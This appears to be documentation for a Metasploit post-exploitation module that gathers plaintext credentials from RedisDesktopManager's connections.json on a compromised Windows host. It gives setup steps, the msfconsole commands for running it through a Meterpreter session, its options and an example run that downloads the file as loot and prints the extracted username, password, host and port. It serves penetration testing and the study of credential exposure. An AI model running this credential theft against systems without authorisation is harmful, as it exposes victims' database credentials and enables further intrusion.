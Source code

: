 ### Overview

[RedisDesktopManager](https://github.com/uglide/RedisDesktopManager) RedisDesktopManager's credentials are saved in a JSON file in plaintext.


### Setup Steps

1. Download the latest installer of Redisdesktopmanager from https://github.com/uglide/RedisDesktopManager/releases.
   But this needs to be subscribed before it can be downloaded. You can download the window version from another project.
   https://github.com/lework/RedisDesktopManager-Windows/releases
2. Follow the installer's prompts to install the software. Select all the default settings.
3. Once everything has been installed, start RedisDesktopManager. click "Connect To Redis Server",
   Click OK after filling in the connection information.

## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/rdm
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by defalt and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/rdm) > run 
[*] Filtering based on these selections:
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true 
[*] Redis_desktop_manager's Connections.json file found
[*] Downloading C:\Users\FireEye\.rdm\connections.json 
[*] Redis_desktop_manager Connections.json downloaded
[+] File saved to:  /home/kali-team/.msf4/loot/20220912203358_default_192.168.80.128_redis_desktop_ma_731068.json
[+] ['name']:  T
[+] ['username']:  A
[+] ['auth']:  my_redis
[+] ['host']:  10.168.1.201
[+] ['port']:  6379
[+] File with data saved:  /home/kali-team/.msf4/loot/20220912203404_default_192.168.80.128_EXTRACTIONSconne_982832.json

  ```
 